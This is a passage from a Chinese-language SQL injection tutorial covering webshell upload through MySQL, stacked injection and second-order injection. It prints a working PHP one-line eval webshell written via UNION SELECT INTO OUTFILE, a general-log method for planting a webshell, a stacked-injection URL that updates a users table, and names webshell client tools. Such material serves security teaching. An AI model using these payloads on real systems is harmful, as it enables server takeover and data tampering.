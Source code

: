 ##### 	8、Mysql注入文件上传

​		1>概述：webshell，顾名思义：web指的是在web服务器上，而shell是用脚本语言编写的脚本程序，webshell就是web的一个管理工具，可以对web服务器进行操作的权限，也叫webadmin。webshell一般是被网站管理员用于网站管理、服务器管理、权限管理等一些用途，但是由于webshell的功能比较强大，可以上传下载文件，查看数据库，甚至可以调用一些服务器上系统的相关命令（比如创建用户，修改删除文件之类的），通常被黑客利用，黑客通过一些上传方式，将自己编写的webshell上传到web服务器的页面的目录下，然后通过页面访问的形式进行入侵，或者通过插入一句话连接本地的一些相关工具直接对服务器进行入侵操作。

​						webshell根据脚本可以分为PHP脚本木马，ASP脚本木马，.NET脚本木马、JSP脚本木马python脚本木马等。

​		2>mysql写入webshell必备条件：

​			① 数据库的当前用户为ROOT或拥有FILE权限；

​			② 知道网站目录的绝对路径；

​			③ PHP的GPC参数为off状态；

​			④ MySQL中的secure_file_priv参数不能为NULL状态。

​		3>mysql写入webshell方法：

​			使用outfile方法

​			基于log日志写入

​		4>使用outfile上传webshell示例：

​			 union select 1,2,"<?php @eval($_POST['password']);?>" into outfile "C:\\phpStudy\\PHPTutorial\\WWW\\a.php" --+

​			然后使用webshell工具连接木马：

​			webshell连接工具：蚁剑(AntSword) 、中国菜刀*(Chopper)* 、C刀(Cknife)、冰蝎(Behinder)、Xise XISE WebShell管理工具、Altman、Weevely、QuasiBot、Webshell-Sniper、WebshellManager等。

​		5>基于log日志写入webshell

​			基于log日志写入的方法其实是先将日志文件的导出目录修改成Web目录，然后执行了一次简单的WebShell代码查询功能，此时日志文件记录了此过程，这样再Web目录下的日志文件就变成了WebShell

​			操作方法：

​				先设置日志文件的导出目录：set global general_file = ‘Web目录’；然后执行一遍select “WebShell代码”。

​				然后使用中国菜刀等工具就可以连接到web服务器了。				

##### 	9、堆叠注入

​		1>概述：Stacked injections:堆叠注入。从名词的含义就可以看到应该是一堆sql语句（多条）一起执行。而在真实的运用中也是这样的，我们知道在mysql中，主要是命令行中，每一条语句结尾加 ; 表示语句结束。这样我们就想到了是不是可以多句一起使用。这个叫做堆叠注入。

​		2>使用条件有限：堆叠注入的使用条件十分有限，其可能受到API或者数据库引擎，又或者权限的限制只有当数据库系统支持执行多条sql语句时才能够使用。

​		3>堆叠注入和union的区别：union后只能跟select，而堆叠后面可以使用insert，update， create，delete等常规数据库语句。

​		4>使用示例：

​			`http://127.0.0.1/web/sql/duidie.php?id=1;update test.users set username='lili' where id=100;`

##### 	10、二次注入

​		1>概述：二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到SQL查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当Web程序调用存储在数据库中的恶意数据并执行SQL查询时，就发生了SQL二次注入。
